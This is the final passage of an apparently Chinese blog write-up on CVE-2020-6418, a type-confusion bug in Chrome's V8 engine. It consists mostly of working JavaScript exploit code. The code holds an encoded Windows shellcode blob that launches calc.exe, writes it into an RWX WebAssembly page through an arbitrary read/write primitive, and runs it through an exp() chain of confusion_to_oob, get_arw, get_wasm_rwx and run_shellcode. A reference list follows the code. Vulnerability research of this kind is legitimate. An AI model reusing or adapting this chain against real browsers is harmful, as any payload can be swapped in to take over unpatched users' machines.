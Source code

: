 ```javascript
	var shellcode =  unescape("%u48fc%ue483%ue8f0%u00c0%u0000%u5141%u5041%u5152%u4856%ud231%u4865%u528b%u4860%u528b%u4818%u528b%u4820%u728b%u4850%ub70f%u4a4a%u314d%u48c9%uc031%u3cac%u7c61%u2c02%u4120%uc9c1%u410d%uc101%uede2%u4152%u4851%u528b%u8b20%u3c42%u0148%u8bd0%u8880%u0000%u4800%uc085%u6774%u0148%u50d0%u488b%u4418%u408b%u4920%ud001%u56e3%uff48%u41c9%u348b%u4888%ud601%u314d%u48c9%uc031%u41ac%uc9c1%u410d%uc101%ue038%uf175%u034c%u244c%u4508%ud139%ud875%u4458%u408b%u4924%ud001%u4166%u0c8b%u4448%u408b%u491c%ud001%u8b41%u8804%u0148%u41d0%u4158%u5e58%u5a59%u5841%u5941%u5a41%u8348%u20ec%u5241%ue0ff%u4158%u5a59%u8b48%ue912%uff57%uffff%u485d%u01ba%u0000%u0000%u0000%u4800%u8d8d%u0101%u0000%uba41%u8b31%u876f%ud5ff%uf0bb%ua2b5%u4156%ua6ba%ubd95%uff9d%u48d5%uc483%u3c28%u7c06%u800a%ue0fb%u0575%u47bb%u7213%u6a6f%u5900%u8941%uffda%u63d5%u6c61%u2e63%u7865%u0065");
	while(shellcode.length % 4 != 0){
		shellcode += "/u9090";
	}
	let sc = [];

	// 将shellcode转换为BigInt
	for (let i = 0; i < shellcode.length; i += 4) {
		sc.push(BigInt(shellcode.charCodeAt(i)) + BigInt(shellcode.charCodeAt(i + 1) * 0x10000) + BigInt(shellcode.charCodeAt(i + 2) * 0x100000000) + BigInt(shellcode.charCodeAt(i + 3) * 0x1000000000000));
	}
	arw_write(wasm_rwx, sc);

	console.log("[+] success!!!");
	wasm_function();
}

function exp() {
	confusion_to_oob();
	get_arw();
	get_wasm_rwx();
	run_shellcode();
}

exp();
```

![image-20210112061152895](https://blog-0x2l.oss-cn-beijing.aliyuncs.com/img/image-20210112061152895.png)

# 参考

[我的博客]([0x2l's blog](https://www.0x2l.cn/))

[issue-1053604](https://bugs.chromium.org/p/chromium/issues/detail?id=1053604)

[A EULOGY FOR PATCH-GAPPING CHROME](https://blog.exodusintel.com/2020/02/24/a-eulogy-for-patch-gapping-chrome/)

[browser-pwn cve-2020-6418漏洞分析](https://ray-cp.github.io/archivers/browser-pwn-cve-2020-6418%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90#%E5%8F%82%E8%80%83%E9%93%BE%E6%8E%A5)

[Chrome漏洞调试笔记3-CVE-2020-6418](https://www.anquanke.com/post/id/201951#h2-0)

[Chrome漏洞调试笔记3-CVE-2020-6418](https://www.anquanke.com/post/id/201951#h2-2)

[Pointer Compression in V8](https://blog.infosectcbr.com.au/2020/02/pointer-compression-in-v8.html)

[BigUint64Array](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/BigUint64Array)

